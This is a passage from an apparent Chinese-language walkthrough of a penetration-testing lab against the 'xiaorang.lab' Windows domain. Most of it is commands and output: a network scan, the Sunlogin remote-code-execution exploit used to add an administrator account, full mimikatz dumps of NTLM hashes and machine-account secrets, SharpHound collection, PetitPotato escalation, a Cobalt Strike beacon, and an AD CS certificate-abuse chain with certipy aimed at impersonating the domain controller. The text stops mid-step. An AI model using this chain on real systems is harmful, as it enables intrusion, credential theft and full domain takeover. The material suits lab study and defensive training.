 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
(icmp) Target 172.22.12.6     is alive
(icmp) Target 172.22.12.12    is alive
(icmp) Target 172.22.12.25    is alive
(icmp) Target 172.22.12.31    is alive
[*] Icmp alive hosts len is: 4
172.22.12.6:88 open
172.22.12.31:445 open
172.22.12.25:445 open
172.22.12.12:445 open
172.22.12.6:445 open
172.22.12.31:139 open
172.22.12.25:139 open
172.22.12.12:139 open
172.22.12.6:139 open
172.22.12.31:135 open
172.22.12.12:135 open
172.22.12.25:135 open
172.22.12.6:135 open
172.22.12.31:80 open
172.22.12.12:80 open
172.22.12.31:21 open
172.22.12.25:6379 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo
[*]172.22.12.25
   [->]WIN-YUYAOX9Q
   [->]172.22.12.25
[*] NetInfo
[*]172.22.12.6
   [->]WIN-SERVER
   [->]172.22.12.6
[*] NetInfo
[*]172.22.12.31
   [->]WIN-IISQE3PC
   [->]172.22.12.31
[*] NetInfo
[*]172.22.12.12
   [->]WIN-AUTHORITY
   [->]172.22.12.12
[*] WebTitle http://172.22.12.12       code:200 len:703    title:IIS Windows Server
Read failed: read tcp 172.22.12.25:51838->172.22.12.31:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] OsInfo 172.22.12.6  (Windows Server 2016 Standard 14393)
[*] WebTitle http://172.22.12.31       code:200 len:703    title:IIS Windows Server
[*] NetBios 172.22.12.6     [+] DC:WIN-SERVER.xiaorang.lab       Windows Server 2016 Standard 14393
[*] NetBios 172.22.12.12    WIN-AUTHORITY.xiaorang.lab          Windows Server 2016 Datacenter 14393
[+] ftp 172.22.12.31:21:anonymous
   [->]SunloginClient_11.0.0.33826_x64.exe
Read failed: read tcp 172.22.12.25:51860->172.22.12.25:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] NetBios  172.22.12.31    WORKGROUP\WIN-IISQE3PC         Windows Version 10.0 Build 17763
[+] PocScan http://172.22.12.12 poc-yaml-active-directory-certsrv-detect
[+] Redis 172.22.12.25:6379 unauthorized file:C:\Program Files\Redis/dump.rdb
[*] NetBios 172.22.12.25    WIN-YUYAOX9Q         Windows Version 10.0 Build 17763
已完成 17/17
[*] 扫描结束,耗时: 21.8972843s
```

整理如下

```
172.22.12.6    DC:WIN-SERVER.xiaorang.lab  域控
172.22.12.25   WIN-YUYAOX9Q.xiaorang.lab  Redis服务器
172.22.12.31   WORKGROUP\WIN-IISQE3PC  IIS网站 ftp匿名 向日葵
172.22.12.12   WIN-AUTHORITY.xiaorang.lab  CA服务器
```

根据向日葵安装包的版本号找到一个rce

## sunlogin-client-for-windows\_11.0.0.33\_rce\_cnvd-2022-10270(向日葵RCE)

### 漏洞描述

上海贝锐信息科技股份有限公司的向日葵远控软件存在远程代码执行漏洞（CNVD-2022-10270/CNVD-

2022-03672），影响Windows系统使用的个人版和简约版，攻击者可利用该漏洞获取服务器控制权。

影响版本

向日葵个人版 for Windows <= 11.0.0.33

向日葵简约版 <= V1.0.1.43315（2021.12）

### 漏洞利用

SunloginClient 启动后会在 40000 以上随机开放一个web端口，认证有问题可以直接通过cgi-bin/rpc?

action=verify-haras获取cid 执行回显rce

<https://github.com/Mr-xn/sunlogin_rce>

```
#扫描向日葵开放的端口
xrkRce.exe -h 172.22.12.31  -t scan
----------------------------------------------

[Info] 正在扫描中,请稍等....
[Info] 目标可能存在Rce!端口: 49686                    
----------------------------------------------

#执行命令
xrkRce.exe -h 172.22.12.31  -t rce -p 49686 -c "whoami"

#发现是system权限，直接添加一个账号 RDP上去
xrkRce.exe -h 172.22.12.31  -t rce -p 49686 -c "net user hack01 1324@cbD /add"
xrkRce.exe -h 172.22.12.31  -t rce -p 49686 -c "net localgroup Administrators hack01 /add"
```



## mimikatz抓取hash

上传mimikatz抓取hash

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 1014101 (00000000:000f7955)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : WIN-YUYAOX9Q
Logon Server      : WIN-YUYAOX9Q
Logon Time        : 2025/2/28 8:36:21
SID               : S-1-5-21-2133802765-1597298259-221676160-1001
    msv :	
     [00000003] Primary
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :	
    wdigest :	
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    kerberos :	
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * Password : 1324@cbD
    ssp :	
    credman :	

Authentication Id : 0 ; 977822 (00000000:000eeb9e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/28 8:36:19
SID               : S-1-5-90-0-2
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 976880 (00000000:000ee7f0)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/28 8:36:19
SID               : S-1-5-90-0-2
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 214618 (00000000:0003465a)
Session           : Interactive from 1
User Name         : Administrator
Domain            : WIN-YUYAOX9Q
Logon Server      : WIN-YUYAOX9Q
Logon Time        : 2025/2/28 8:32:34
SID               : S-1-5-21-2133802765-1597298259-221676160-500
    msv :	
     [00000003] Primary
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * NTLM     : abf1bda66923f85bba8a99d43f18c846
     * SHA1     : bbff6286fb932f6d5f4bba1351cee28d4a21108e
    tspkg :	
    wdigest :	
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    kerberos :	
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 104028 (00000000:0001965c)
Session           : Service from 0
User Name         : Administrator
Domain            : WIN-YUYAOX9Q
Logon Server      : WIN-YUYAOX9Q
Logon Time        : 2025/2/28 8:32:23
SID               : S-1-5-21-2133802765-1597298259-221676160-500
    msv :	
     [00000003] Primary
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * NTLM     : abf1bda66923f85bba8a99d43f18c846
     * SHA1     : bbff6286fb932f6d5f4bba1351cee28d4a21108e
    tspkg :	
    wdigest :	
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    kerberos :	
     * Username : Administrator
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 56766 (00000000:0000ddbe)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-90-0-1
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-YUYAOX9Q$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-20
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : win-yuyaox9q$
     * Domain   : XIAORANG.LAB
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 27492 (00000000:00006b64)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-96-0-1
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 26287 (00000000:000066af)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : 
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
    kerberos :	
    ssp :	
    credman :	

Authentication Id : 0 ; 1014130 (00000000:000f7972)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : WIN-YUYAOX9Q
Logon Server      : WIN-YUYAOX9Q
Logon Time        : 2025/2/28 8:36:21
SID               : S-1-5-21-2133802765-1597298259-221676160-1001
    msv :	
     [00000003] Primary
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :	
    wdigest :	
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    kerberos :	
     * Username : hack01
     * Domain   : WIN-YUYAOX9Q
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 974540 (00000000:000edecc)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2025/2/28 8:36:18
SID               : S-1-5-96-0-2
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:22
SID               : S-1-5-19
    msv :	
    tspkg :	
    wdigest :	
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :	
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 56747 (00000000:0000ddab)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-90-0-1
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 27407 (00000000:00006b0f)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-96-0-0
    msv :	
     [00000003] Primary
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : xiaorang.lab
     * Password : 57 16 ef aa fb ae 37 d6 8e 43 25 83 a1 2a 83 dd 88 81 42 c5 45 09 56 31 20 ce dc a7 8d 14 0d 3c 39 91 b5 9b 19 d1 4a 55 57 ed 1b 32 24 30 7c 15 96 d7 d3 7a d6 aa d9 9d 91 d8 d6 16 d6 76 a6 45 5b e9 22 35 b8 b1 0c 57 9b b2 e6 0e 81 53 c7 e3 ee 94 3e f8 b9 d4 11 f8 f9 d5 53 65 d4 64 4e 97 69 0c 34 ab b1 dc e7 d8 2c 1d bf 43 85 87 22 ba 4f 85 4a b7 8c 09 e3 ea 3c a6 ec 9c 51 62 c9 60 53 78 1f b4 d8 48 1d 4f 18 d1 98 dc 88 68 1f 6b 8c 72 d7 85 f2 bf 5c c3 e1 17 fb d6 ea cb fd ce d4 1c 36 42 04 9d 74 0d 21 a0 b3 c5 ff f1 01 d2 ff b9 fa ee d4 25 9f 06 4b ca 70 81 e9 37 cb 9b 91 24 16 a2 bf d9 01 29 e5 93 ec eb b0 95 78 81 13 c7 a9 9d f0 ce f3 fc 0a c9 5a 43 33 c8 25 23 e9 7d 02 3b de fb 67 4b dd 5e bb 2f 3b ef 19 2d 
    ssp :	
    credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-YUYAOX9Q$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2025/2/28 8:32:21
SID               : S-1-5-18
    msv :	
    tspkg :	
    wdigest :	
     * Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :	
     * Username : win-yuyaox9q$
     * Domain   : XIAORANG.LAB
     * Password : (null)
    ssp :	
    credman :	

mimikatz #
```

SharpHound用System权限收集一下域内信息，其他权限运行报错

```
C:\Users\test$\Desktop>sharphound.exe -c all
2025-02-28T11:29:05.9337629+08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-02-28T11:29:06.1857108+08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-02-28T11:29:06.2169586+08:00|INFORMATION|Initializing SharpHound at 11:29 on 2025/2/28
2025-02-28T11:29:06.3107130+08:00|WARNING|[CommonLib LDAPUtils]LDAP connection is null for filter (objectclass=domain) and domain Default Domain
2025-02-28T11:29:06.3107130+08:00|ERROR|Unable to connect to LDAP, verify your credentials
```

## PetitPotato提权

上传一个后门程序到C:\Program Files\Redis

PetitPotato梭哈



sharphound收集域信息、bloodhound分析域信息

```
shell C:\Users\test$\Desktop\sharphound.exe -c all --outputdirectory C:\Users\test$\Desktop\
```



## active-directory-certsrv-detect

参考<https://cloud.tencent.com/developer/article/2391445>

前面fscan进行内网扫描时，发现IP地址为172.22.12.12的CA服务器存在一个与Active Directory证书服务（AD CS）相关的安全漏洞。具体来说，这个漏洞可以通过利用名为“certsrv”的检测点来请求任意攻击者控制的DNS主机名的计算机证书。

### 漏洞描述

该漏洞允许攻击者滥用Active Directory证书服务（AD CS），通过以下方式提升域权限：

1. 请求特制证书：攻击者可以利用AD CS请求一个具有任意DNS主机名的计算机证书。
2. 模拟域控制器：一旦获得了具有特定DNS主机名的证书，攻击者可以利用该证书模拟域中的任何计算机帐户，包括域控制器。
3. 完全域接管：通过成功模拟域控制器，攻击者可以获得对整个域的完全控制权，从而实现全面的域接管。

查看CA

```
[02/28 12:28:57] beacon> shell certutil
[02/28 12:28:58] [*] Tasked beacon to run: certutil
[02/28 12:28:58] [+] host called home, sent: 39 bytes
[02/28 12:28:58] [+] received output:
项 0:
  名称:                   	"xiaorang-WIN-AUTHORITY-CA"
  部门:                   	""
  单位:                   	""
  区域:                   	""
  省/自治区:              	""
  国家/地区:              	""
  配置:                   	"WIN-AUTHORITY.xiaorang.lab\xiaorang-WIN-AUTHORITY-CA"
  Exchange 证书:          	""
  签名证书:               	""
  描述:                   	""
  服务器:                 	"WIN-AUTHORITY.xiaorang.lab"
  颁发机构:               	"xiaorang-WIN-AUTHORITY-CA"
  净化的名称:             	"xiaorang-WIN-AUTHORITY-CA"
  短名称:                 	"xiaorang-WIN-AUTHORITY-CA"
  净化的短名称:           	"xiaorang-WIN-AUTHORITY-CA"
  标记:                   	"1"
  Web 注册服务器:         	""
CertUtil: -dump 命令成功完成。
```

配置一下hosts

```
172.22.12.6 WIN-SERVER.xiaorang.lab
172.22.12.12 WIN-AUTHORITY.xiaorang.lab
172.22.12.12 xiaorang-WIN-AUTHORITY-CA
```

滥用 Active Directory 证书服务（AD CS）。可以请求任意DNS主机名的计算机证书，从而模拟域中的任何计算机账户，包括域控制器。使用现有的机器账号 WIN-YUYAOX9Q$ 的哈希值来创建一个新的机器账号，以便后续操作。

```
* Username : WIN-YUYAOX9Q$
     * Domain   : XIAORANG
     * NTLM     : e611213c6a712f9b18a8d056005a4f0f
     * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
```

### 具体步骤

1. 获取现有机器账号的哈希值： 已经获取了名为 WIN-YUYAOX9Q$ 的机器账号的哈希值。这一步骤通常通过前期的信息收集和凭证窃取完成。
2. 利用现有机器账号创建新的机器账号： 使用 WIN-YUYAOX9Q$ 的哈希值，通过以下步骤创建一个新的机器账号：

* Pass-the-Hash 攻击：利用 WIN-YUYAOX9Q$ 的哈希值进行 Pass-the-Hash 攻击，以该机器账号的身份进行身份验证。
* 创建新机器账号：一旦成功通过身份验证，使用该机器账号的权限在域中创建一个新的机器账号。

3. 为新机器账号请求证书： 使用新创建的机器账号，向 AD CS 请求一个具有特定 DNS 主机名的计算机证书。这个证书将允许该新机器账号冒充域中的其他计算机，包括域控制器。  
   示例步骤：

* 连接到证书颁发机构（CA）服务器。
* 提交证书请求，指定所需的 DNS 主机名。
* 安装并应用获得的证书。

4. 冒充域管理员： 使用新机器账号及其获得的证书，模拟域中的关键系统（如域控制器），从而实现全面的域接管。

#### 利用WIN-YUYAOX9Q$机器用户新建一个机器用户

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q certipy-ad account create -u WIN-YUYAOX9Q$ -hashes e611213c6a712f9b18a8d056005a4f0f  -dc-ip 172.22.12.6 -user Wh1teSu -dns WIN-SERVER.xiaorang.lab -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://172.22.12.6:636 - ssl
[+] Default path: DC=xiaorang,DC=lab
[+] Configuration path: CN=Configuration,DC=xiaorang,DC=lab
[*] Creating new account:
    sAMAccountName                      : Wh1teSu$
    unicodePwd                          : G9FU2vCMQ5Vvow5p
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/Wh1teSu
                                          RestrictedKrbHost/Wh1teSu
    dnsHostName                         : WIN-SERVER.xiaorang.lab
[*] Successfully created account 'Wh1teSu$' with password 'G9FU2vCMQ5Vvow5p'
```

#### 申请证书模板

（如果一次没成功，执行两次即可）

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q certipy-ad req -u 'Wh1teSu$@xiaorang.lab' -p 'G9FU2vCMQ5Vvow5p' -ca 'xiaorang-WIN-AUTHORITY-CA' -target 172.22.12.12 -template 'Machine' -debug -dc-ip 172.22.12.6
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:172.22.12.12[\pipe\cert]
[+] Connected to endpoint: ncacn_np:172.22.12.12[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with DNS Host Name 'WIN-SERVER.xiaorang.lab'
[*] Certificate object SID is 'S-1-5-21-3745972894-1678056601-2622918667-1106'
[*] Saved certificate and private key to 'win-server.pfx'
```

接下来按照正常流程走会出错

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q certipy-ad auth -pfx win-server.pfx -dc-ip 172.22.12.6 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: win-server$@xiaorang.lab
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

报错的原因是域控制器没有安装用于智能卡身份验证的证书，解决办法的话就是尝试 Schannel，通过 Schannel将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限。

#### Schannel

首先将pfx导出为.key 和.crt 两个文件(空密码)

```
openssl pkcs12 -in win-server.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```

<https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py>

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
